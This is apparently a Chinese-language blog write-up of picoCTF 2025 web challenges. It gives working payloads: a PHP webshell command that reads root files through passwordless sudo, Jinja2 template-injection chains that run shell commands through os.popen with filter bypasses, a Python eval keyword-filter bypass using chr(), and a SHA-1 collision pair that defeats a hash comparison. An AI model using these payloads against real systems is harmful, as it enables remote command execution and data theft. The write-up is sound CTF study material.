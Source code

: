 ```yaml
---
title: "picoCTF 2025"
date: 2025-03-12
categories: 
  - "ctf"
tags: 
  - "picoctf"
---
```


## Web

### Cookie Monster Secret Recipe

任意登录后发现**Cookie**字段

![](./images/image-207.png)

进行**URL解码**和**Base64解码**

![](./images/image-208.png)

### head-dump

在网页源码中发现一个**/api-docs**路由

![](./images/image-209.png)

进入之后执行一下**/heapdump**的`GET`方法，发现响应的是一个下载链接

![](./images/image-210.png)

用**notepad++**打开，搜索字符串

![](./images/image-211.png)

### n0s4n1ty 1

没有任何检验的上传，可以直接传一个**PHP**木马

![](./images/image-212.png)

使用**sudo -l**检查，发现**www-data**可以执行任何命令，无需密码

```
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

如下构造

```
/uploads/webshell.php?cmd=sudo cat /root/flag.txt
```

![](./images/image-213.png)

### SSTI1

如下构造即可

```
{{lipsum.__globals__.os.popen('ls').read()}}
{{lipsum.__globals__.os.popen('cat flag').read()}}
```

![](./images/image-214.png)

### WebSockFish

随便移动一个小兵向前一步

然后抓包，修改为：**eval -10000000000000**

![](./images/image-215.png)

### 3v@l

在网页源码中看到过滤情况

```
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```

尝试引入模块，使用加号拼接，可以看到成功找到**os**模块

![](./images/image-216.png)

尝试调用**popen**查看目录

![](./images/image-217.png)

可以通过**chr**函数来绕过关键字符

```
__import__('o'+'s').popen('l'+'s' + chr(32) + chr(47)).read()
```

![](./images/image-218.png)

```
__import__('o'+'s').popen('c'+'a'+'t' + chr(32) + chr(47)+'f'+'l'+'a'+'g'+'.'+'t'+'x'+'t').read()
```

![](./images/image-219.png)

### SSTI2

构造的目标如下

```
{{lipsum.__globals__.__getitem__('os').popen('ls').read()}}
```

过滤比较严格，用**set**来进行拼接字符串

```
//获取下划线 _
{%set a='po'+'p'%}{%set line=(lipsum|string|list)|attr(a)(18) %}{{line}}

//获取双下划线 __
{%set a='po'+'p'%}{%set line=(lipsum|string|list)|attr(a)(18) %}{%set dbline=line+line%}{{dbline}}

//获取 __globals__
{%set a='po'+'p'%}{%set line=(lipsum|string|list)|attr(a)(18) %}{%set dbline=line+line%}{%set glbs=dbline+"globals"+dbline%}{{glbs}}

//__getitem__
{%set a='po'+'p'%}{%set line=(lipsum|string|list)|attr(a)(18) %}{%set dbline=line+line%}{%set glbs=dbline+"globals"+dbline%}{%set gtem=dbline+"getitem"+dbline%}{{gtem}}

//all
{%set a='po'+'p'%}{%set line=(lipsum|string|list)|attr(a)(18) %}{%set dbline=line+line%}{%set glbs=dbline+"globals"+dbline%}{%set gtem=dbline+"getitem"+dbline%}{%set cmd="l"+"s" %}{%set rd="read"%}{%set pp="po"+"pen"%}{{lipsum|attr(glbs)|attr(gtem)('os')|attr(pp)(cmd)|attr(rd)()}} 
```

![](./images/image-220.png)

读取**flag**即可

```
{%set a='po'+'p'%}{%set line=(lipsum|string|list)|attr(a)(18) %}{%set dbline=line+line%}{%set glbs=dbline+"globals"+dbline%}{%set gtem=dbline+"getitem"+dbline%}{%set cmd="ca"+"t fl"+"ag" %}{%set rd="read"%}{%set pp="po"+"pen"%}{{lipsum|attr(glbs)|attr(gtem)('os')|attr(pp)(cmd)|attr(rd)()}} 
```

![](./images/image-221.png)

### Apriti sesamo

**emacs** 备份文件名一般会在后面加一个**~**

![](./images/image-222.png)

```
<?php
if (isset($_POST['username']) && isset($_POST['pwd'])) {
    $yuf85e0677 = $_POST['username'];
    $rs35c246d5 = $_POST['pwd'];

    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br><!-- Security Warning -->";
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../foobar");
        } else {
            echo "<br><!-- Security Warning -->";
        }
    }
}
?>
```

可以看到是**SHA1强比较**：[ctf中强md5及sha1碰撞绕过（字符串string型）-CSDN博客](https://blog.csdn.net/weixin_52118430/article/details/123855542)

```
username=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&pwd=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
```

![](./images/image-223.png)

### Pachinko

如图连线，然后提交

![](./images/image-227.png)
